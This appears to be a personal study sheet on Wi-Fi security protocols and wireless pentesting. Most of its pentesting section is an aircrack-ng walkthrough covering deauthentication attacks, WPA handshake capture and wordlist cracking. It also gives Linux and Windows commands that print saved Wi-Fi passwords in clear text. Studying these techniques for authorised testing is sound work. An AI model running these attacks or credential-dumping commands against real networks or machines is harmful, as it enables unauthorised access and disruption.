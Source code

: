 ### 🔒 WEP (Wired Equivalent Privacy)

- Introduced: 1997 (original Wi-Fi standard, IEEE 802.11).
- Encryption: RC4 stream cipher with 64-bit / 128-bit keys.
- Weakness: Very easy to crack due to weak key scheduling and predictable IV (Initialization Vector).
- Status: Obsolete – can be hacked in minutes with tools like Aircrack-ng.

### 🔒 WPA (Wi-Fi Protected Access)

- Introduced: 2003 (as a quick fix to replace WEP).
- Encryption: TKIP (Temporal Key Integrity Protocol).
- Improvement: Added per-packet key mixing + message integrity check.
- Weakness: Still vulnerable (TKIP is outdated), can be cracked with dictionary attacks.
- Status: Deprecated but still seen in old devices.

### 🔒 WPA2 (Wi-Fi Protected Access 2)

- Introduced: 2004 (mandatory since 2006 for Wi-Fi certification).
- Encryption: AES-CCMP (stronger than TKIP).
- Improvement: Much more secure than WPA.
- Weakness: Vulnerable to KRACK attack (2017) if patches not applied; WPA2-Personal (PSK) can be cracked via weak passwords.
- Status: Still widely used today.

### 🔒 WPA3 (Wi-Fi Protected Access 3)

- Introduced: 2018 (latest standard).
- Encryption: SAE (Simultaneous Authentication of Equals) replaces PSK.
- Improvement:
	- Strong protection against offline password-guessing.
	- Forward secrecy (session keys stay safe even if password is later known).
	- Mandatory 192-bit encryption for enterprise networks.
- Weakness: Some early implementation flaws (Dragonblood attack), but patches fixed most issues.
- Status: Most secure standard available; slowly becoming mainstream.

#### ✅ Summary:

- WEP → insecure, obsolete.
- WPA → weak, deprecated.
- WPA2 → secure if patched, still common.
- WPA3 → most secure, recommended for modern networks.

---

### 📡 Wi-Fi Modes in Linux / Networking

#### 🔍 Monitor Mode

**What it is:**
- A special mode where the Wi-Fi card can capture all wireless traffic in the air, even if it’s not meant for your device.

**Use cases:**
- Packet sniffing (Wireshark, tcpdump).
- Security testing (Aircrack-ng, Kismet).
- Analyzing nearby networks without connecting.

**Key point:**
- You don’t need to be connected to a network. It’s like putting your card into “listen-only” mode.
- Example command (Linux):
	```bash
	sudo iwconfig
	sudo ifconfig wlan0 down
	sudo iwconfig wlan0 mode monitor
	sudo ifconfig wlan0 up

	or 
    sudo airmon-ng check kill
	sudo airmon-ng start  wlan0
	```

#### 🌐 Managed Mode

**What it is:**
- The default mode for Wi-Fi cards. In this mode, your Wi-Fi card communicates only with the Access Point (AP) it’s connected to.

**Use cases:**
- Normal Wi-Fi usage (browsing, streaming, etc.).
- Standard network communication.

**Key point:**
- Only processes traffic to/from your device and ignores all other packets in the air.
- Example command (Linux):
```bash
sudo iwconfig
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode managed
sudo ifconfig wlan0 up

or 
sudo iwconfig
sudo airmon-ng stop  wlan0mon

```


### Pentesting Wifi

#### 1. wifite : 

   |NUM  |                    ESSID |  CH | ENCR  |  PWR   | WPS | CLIENT|                                       
   |---  |------------------------- | --- | ----- |  ----  | --- | ------|
   |  1  |                    ROBIN |   7 | WPA   |  99db  |  no |   1   |                                        
   |  2  |                    sonu  |   4 | WPA-P |  22db  | yes |   1   |

   - WPS enabled? :  ✅ WPS is ON → vulnerable to WPS attacks (Pixie Dust, Reaver, Bully).

#### 2. fern-wifi-cracker 


#### 3. Manually 

1. Enable Monitor Mode
```bash
	sudo iwconfig
	sudo ifconfig wlan0 down
	sudo iwconfig wlan0 mode monitor

	# or 

	sudo airmon-ng check kill         
    sudo airmon-ng start wlan0

    sudo airmon-ng stop  wlan0mon
```
2. Scan for targets
```bash
   sudo airodump-ng wlan0mon
```
3. Capture  handshake

```bash
	# BSSID = 16:32:51:73:9A:94

	sudo airodump-ng -c 11 --bssid 16:32:51:73:9A:94 -w capture wlan0mon

	# In Other terminal DeAuth to get handshake  :

	sudo aireplay-ng -0 10 -a 16:32:51:73:9A:94  -c Station_BSSID wlan0mon
	sudo aireplay-ng -0 50 -a 16:32:51:73:9A:94  -c C6:6D:35:3D:14:72 wlan0mon

	sudo aireplay-ng -0 5 -a <BSSID> wlan0mon

	# -0 = deauth attack
    # 10 = number of deauth packets
    # -a = target AP BSSID
```

5. Crack the handshake

- Now use a wordlist (like rockyou.txt):
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 16:32:51:73:9A:94 capture-02.cap
```
- Use of HashCat to crack the password
	- Online tool to convert pcap to hashcat-file
	```cmd
	 hashcat -a 0 -m 2500 [path to hashcat-file] [path to wordlist}
	```

```bash
#All Commnad
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng --bssid [MAC adress] -c [channel number] -w [output file] wlan0mon
aireplay-ng --deauth [Number of deauth packs] -a [MAC adress] wlan0mon
aircrack-ng [path to pcap file] -w [path to wordlist]
```







## Play with Windows/Linux cmd
-  Cmd to get saved password
```bash
# Linux : 
# SSID="Wifi Name"
sudo cat /etc/NetworkManager/system-connections/SSID.nmconnection | grep -i psk=

# Windows:

netsh wlan show profiles
netsh wlan show profile name="WiFi-Name" key=clear
netsh wlan export profile key=clear folder=C:\wifi-password-backup  #(including passwords) as XML


```


## ✅ Quick Workflow

- Before pentest
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

- After pentest (to restore internet)
```bash
sudo airmon-ng stop wlan0mon
sudo service NetworkManager restart
```
---







**Robin H00d :**
---

